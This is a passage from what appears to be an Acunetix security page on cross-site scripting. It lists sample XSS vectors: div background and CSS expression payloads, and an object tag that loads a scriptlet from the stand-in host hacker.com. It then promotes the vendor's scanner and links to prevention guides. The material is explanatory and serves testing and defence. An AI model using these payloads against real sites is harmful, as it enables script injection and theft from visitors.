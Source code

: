 The &lt;div&gt; tag, similar to the &lt;table&gt; and &lt;td&gt; tags
can also specify a background and therefore embed a script.

*&lt;!-- &lt;div&gt; tag XSS --&gt;*\
&lt;div style="background-image: url(javascript:alert('XSS'))"&gt;\
*&lt;!-- &lt;div&gt; tag XSS --&gt;*\
&lt;div style="width: expression(alert('XSS'));"&gt;

### **&lt;object&gt; tag**

The &lt;object&gt; tag can be used to include in a script from an
external site.

*&lt;!-- &lt;object&gt; tag XSS --&gt;*\
&lt;object type="text/x-scriptlet" data="http://hacker.com/xss.html"&gt;

**Is your website or web application vulnerable to Cross-site Scripting?**
--------------------------------------------------------------------------

XSS vulnerabilities are amongst the most widespread web application
vulnerabilities on the Internet. Fortunately, it’s easy to test if your
website or web application is vulnerable to XSS and other
vulnerabilities by running an automated web vulnerability scan using
Acunetix Vulnerability Scanner.
[Download](http://www.acunetix.com/vulnerability-scanner/download/) the
14-day free on-premise trial, or
[register](http://www.acunetix.com/vulnerability-scanner/register-online-vulnerability-scanner/)
to our online service to run a scan against your website or web
application.

#### **Further reading**

-   [Types of XSS](http://www.acunetix.com/websitesecurity/xss/)

-   [A comprehensive tutorial on Cross-site
    > Scripting](http://excess-xss.com/)

-   [XSS Prevention Cheat
    > Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)


